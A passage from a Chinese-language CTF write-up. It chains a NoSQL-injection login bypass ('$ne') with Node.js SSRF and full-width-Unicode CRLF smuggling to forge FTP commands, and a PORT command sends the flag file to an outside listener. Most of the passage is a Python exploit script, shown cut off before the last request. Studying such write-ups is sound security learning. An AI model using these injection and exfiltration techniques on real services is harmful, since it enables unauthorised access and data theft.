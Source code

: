 然后进入 /home 发现是一个可以访问 外网 和 内网 的 url, 前提是必须 `http://` 开头, 其它的均会解析失败, 题目又说 flag 放在 ftp 的 files 里面, 所以需要伪造 ftp 数据包, nodejs 可以进行 [CRLF 注入](http://www.iricky.ltd/2021/01/27/31.html#Nodejs8_SSRF) , 尝试用高编码导入 ftp 数据包, ftp 控制命令如下

![20210414092205951](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210414092205951.png)

```
USER anonymous # 登录匿名用户
PASS anonymous # 登录匿名用户
CWD files      # 转换到 files 目录
TYPE I         # 输出文件类型 binary
PORT n1,n2,n3,n4,n5,n6 # 设置主动的ip和端口，格式见上
RETR flag # 获取flag
```

然后把这些数据当作包传过去, 整体脚本如下

```python
# -*-coding:utf-8-*-
import requests
import json

url = "http://node.mrctf.fun:23000/"

# 例如 1.1.1.1 需要 1,1,1,1 输入, 监听端口8888
payload ='''
USER anonymous
PASS anonymous
CWD files
TYPE I
PORT xxx,xxx,xxx,xxx,0,8888
RETR flag
'''.replace("\n", "\r\n")

headers_1 = {
    "Content-Type": "application/json",
}

data_1 = {
  "email": {"$ne": ""},
  "password": {"$ne": ""},
}

def payload_encode(raw):
    ret = u""
    for i in raw:
        ret += chr(0xff00+ord(i))
    return ret

if __name__ == '__main__':
    jwtt = requests.post(url=url + 'login', headers=headers_1, data=json.dumps(data_1))
    token = jwtt.json()['token']
    url_payload = "http://nosqli_ftp:8899/"
    # url_payload = "http://ftp:8899/"
    url_payload = url_payload + payload_encode(payload)

    headers_2 = {
        "Accept": "*/*",
        "Authorization": "Bearer " + token,
    }

    json = {
        "url": url_payload
    }

```